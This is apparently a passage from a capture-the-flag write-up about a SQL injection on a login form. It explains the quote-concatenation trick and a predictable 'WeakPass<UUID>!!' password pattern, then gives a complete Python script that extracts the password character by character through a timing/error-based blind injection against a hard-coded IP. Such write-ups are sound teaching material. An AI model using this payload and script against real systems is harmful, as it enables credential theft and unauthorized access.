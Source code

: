 - `|| '` concats quote to complete the last quote in the original SQL query

During test runs we have observed that password is rotated for each instance, but there is a password convention being followed:
```
WeakPass2794a220-1c1d-11ee-9133-0242ac110007!!
WeakPass2794a220-1c1d-11ee-9133-0242ac110008!!
WeakPass;49104e0-1c1c-11ee-8738-0242ac110007!!

WeakPass<UUID_FORMAT>!!
```

This made our bruteforcing easier by guessing just the characters from a UUID held in between `WeakPass[0-9a-f\-]{34}!!`.

This is the final script:
```python
import requests
import urllib.parse
import sys

loop = True
timeout = 1
password='WeakPass'
zerocount = 5
curr = len(password) + 1
s = '-0123456789abcdef!ghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$()*+,-./:><?@^_{|}~='
candidate = ''

i = 0
while loop:
    while i < len(s):
        k = s[i]
        payload = "' || '' || repeat('', 2147483647 - ascii('{}') + ascii(substr(passwd,{},1))) || '".format(k, curr)
        payload = urllib.parse.quote_plus(payload)

        try:
            res = requests.post('http://47.89.225.36:{}/login'.format(sys.argv[1]), data="username={}&passwd=".format(payload), headers={'content-type': 'application/x-www-form-urlencoded'}, timeout=timeout)
            print('{}, {}, {}, {}\r'.format(password, k, res.elapsed.total_seconds(), res.status_code), end='\r')

        except:
            if candidate != '' and candidate == k:
                candidate=''
                curr += 1
                password += k
                i = 0

                if password[-1*zerocount:] == '-'*zerocount:
                    loop = False
                break

            candidate = k
            break

        i += 1

print()
print(password.rstrip('-'*zerocount)+'!!')
```
